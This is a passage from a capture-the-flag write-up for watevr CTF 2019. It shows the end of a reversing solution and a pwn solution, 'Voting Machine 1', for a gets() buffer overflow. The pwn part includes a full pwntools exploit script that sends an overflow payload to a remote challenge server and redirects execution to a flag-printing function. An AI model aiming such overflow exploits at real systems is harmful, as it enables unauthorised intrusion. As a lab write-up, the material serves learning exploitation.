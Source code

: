 Now, what remains is to get the enoced values corresponding to "give_me_the_flag_please". The most thing dut to which I was stuck for some time was to add the encoding for the NULL character at the end as well (here it was 0). So final input is - 38 118 79 95 127 109 95 127 129 91 95 127 20 114 15 38 127 73 114 95 15 124 95 0.

The flag is - **watevr{oops_1_f0rg0t_to_use_r4ndom_k3ys!_youtube.com/watch?v=BaACrT6Ydik}**

&nbsp;  

___

# Pwn Challenges

## Voting Machine 1

File: [kamikaze](/post/2019-12-15_watevr-ctf-2019-writeups/files/kamikaze)

This is a buffer overflow challenge as gets has been used. There is a function `super_secret_function`. We basically have to jump there as it prints the flag. Pretty straightforward.

{{< figure src="/post/2019-12-15_watevr-ctf-2019-writeups/images/vm_1.png" >}}

The offset of the crash is calculated using gef's pattern create and pattern search functionality.

My exploit code - 

```python
from pwn import *
# context.log_level = 'debug'
p = process("./kamikaze")
e = ELF('./kamikaze')
p = remote("13.48.67.196", 50000)

offset = 10

p.recvuntil(': ')

func = 0x0000000000400807

payload = "A"*offset
payload += p64(func)

p.sendline(payload)

with open('payload', 'wb') as f:
    f.write(payload)

p.interactive()
```

The flag is - **watevr{w3ll_th4t_w4s_pr3tty_tr1v1al_anyways_https://www.youtube.com/watch?v=Va4aF6rRdqU}**

&nbsp;  
